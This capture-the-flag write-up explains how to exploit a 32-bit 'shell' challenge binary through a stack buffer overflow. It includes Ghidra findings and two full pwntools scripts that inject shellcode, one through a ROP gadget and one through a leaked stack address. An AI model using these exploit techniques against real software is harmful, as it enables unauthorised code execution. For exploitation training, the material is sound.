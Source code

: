 ```yaml
---
title: "CWE Challenge - Shell"
author: Michael Mendoza
date: "2023-01-20"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/titlePage.jpeg"
...
```


# Information Gathering

We can see here that we are working with a 32-bit binary with all the defense mechanisms turned off!

![Information](./images/info.png)
 **Figure 1:** Information about the binary

## Ghidra

After observing the main function we can see a read_in function that has the vulnerability we are looking for.

![Ghidra](./images/read_in.png)
 **Figure 2:** Read_In Function
 
On the right side of Ghidra, we can see the decompiled read_in function showing that there is a buf variable with 44 bytes allocated to it, but the read function reads in 0x90 bytes; this is where the buffer overflow vulnerability is located. On the left side we can see that the buf variable is at an offset of 0x38.
 
I did not see a win function, so this means we will have to create a payload to exploit the binary and get a return shell. Overwriting the instruction pointer to return to the stack pointer where our exploit will be should be good enough.

## Creating the Exploit 
So there's 2 ways I want to show that this binary could be exploited. The first is to use a ROP gadget to return to the stack pointer, and the second is to find the offset to the stack pointer using the leaked address. Using the ROP gadget would be easier since you dont need a leaked address to find the offset to. However, I will show both exploits to showcase how this could be solved if using ROP gadgets was not an option.

# ROP Gadget Exploit

The goal we need to accomplish here is to somehow jump to, return to, or even call the stack pointer to run the shell code! We can accomplish this using ROP Gadgets. To find the right one, we use ropper and see the following output.

![ROP](./images/ropper.png)
**Figure 3:** ROP Gadgets Available
 
Ideally, finding a "jmp esp" or "call esp" or even a "push esp; ret" would be nice, but there are not many options. We do see one ROP instruction that pushes esp onto the stack, does a couple of other things and then returns, which theoretically should still work.

![ROP](./images/gadgetFound.png)
 **Figure 4:** ROP Gadgets Found


We can use shellcraft in our python script to create the shell code necessary to give us a shell. We create a buffer of 0x38 bytes which we saw was the offset earlier in Ghidra and overwrite the instruction pointer to return to the gadget we found.

## Python Script

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the shell using the assembler function

#need to somehow return to the stack pointer where the shell code is
returnAddr = 0x08049115 # ROP Gadget found - push esp; mov ebx, dword ptr [esp]; ret;

#send the payload
payload = buffer + p32(returnAddr) + shell
p.sendline(payload)

p.interactive()
```

## Flag
![Flag](./images/flag.png)
\ **Figure 5:** Running the Exploit

And BOOM! Our gadget worked. 

# Leaked Address Exploit

To find the offset that we need for this exploit, we set a break point after the read function is called so we can see what the stack frame looks like when we send our payload. 

![Leaked](./images/read_inGDB.png)
 **Figure 6:** GDB read_in function

run the program to get the leaked address

![Leaked](./images/leakedAddress.png)
 **Figure 7:** Leaked Address

Here we see the leaked address is 0xffffd0c4. Now to view what the stack frame looks like at the time you send the payload.

![Leaked](./images/stackFrame.png)
 **Figure 8:** Stack Frame

Here we can see that the previous frame's sp is 0xffffd100. This is where we want to calculate our offset to. After doing some quick math.

![Leaked](./images/quickMath.png)
 **Figure 9:** Quick Math

So now we can see that adding 0x3c to the leaked address will return us to where our shell code is.

## Python Script

This script is exactly the same as the ROP script except we save the leaked address and calculate the return address by adding the offset we found.

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the payload using the assembler function

p.recvuntil(b'= ') #recieve up until the leaked address

leakedAddress = (p.recvline().strip()) #strips the address of whitespace

log.info(f'Leaked Address => {leakedAddress}')

strAddr = leakedAddress.decode('utf-8') #converts raw bytes to string


intAddr = int(strAddr, 16) #converts string to hex

log.info(f'Integer Address => {hex(intAddr)}')


returnAddr = intAddr + 0x3c #found the offset to the previous frames stack pointer to return to

log.info(f'Return Address => {hex(returnAddr)}')

payload = buffer + p32(returnAddr) + shell

log.info(f'Payload => {payload}')


p.sendline(payload)

p.interactive()
```
## Flag

![Flag](./images/leakedExploit.png)
 **Figure 10:** Running the Exploit

# Conclusion
This challenge was solvable by understanding how to create the payload and knowing where to return to. The need to return to the stack pointer to find our exploit was key in solving this problem.


# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://docs.pwntools.com/en/stable/asm.html](https://docs.pwntools.com/en/stable/asm.html)


